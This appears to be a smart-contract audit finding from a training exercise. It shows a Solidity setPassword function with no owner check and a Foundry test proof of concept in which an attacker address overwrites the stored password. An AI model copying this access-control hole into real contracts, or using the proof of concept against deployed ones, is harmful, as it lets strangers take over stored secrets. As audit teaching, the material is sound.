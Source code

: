 # H-01 - anyone can set the password

https://github.com/Cyfrin/3-passwordstore-audit/blob/53ca9cb1808e58d3f14d5853aada6364177f6e53/src/PasswordStore.sol#L26C5-L29C6

```solidity
function setPassword(string memory newPassword) external {
        s_password = newPassword;
        emit SetNetPassword();
    }
```

- No check for msg.sender == s_owner

## Proof of Concept

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.18;

import {Test, console} from "forge-std/Test.sol";
import {PasswordStore} from "../src/PasswordStore.sol";
import {DeployPasswordStore} from "../script/DeployPasswordStore.s.sol";

contract PasswordStoreTest is Test {
    PasswordStore public passwordStore;
    DeployPasswordStore public deployer;
    address public OWNER = makeAddr("owner");

    address public ATTACKER = makeAddr("attacker");

    function setUp() public {
        deployer = new DeployPasswordStore();
        passwordStore = deployer.run();
        OWNER = msg.sender;
    }

    function test_review_non_owner_can_set_password() public {
        vm.prank(ATTACKER);
        string memory expectedPassword = "attackPassword";
        passwordStore.setPassword(expectedPassword);

        vm.prank(OWNER);
        string memory actualPassword = passwordStore.getPassword();
        assertEq(actualPassword, expectedPassword);
    }
}
```
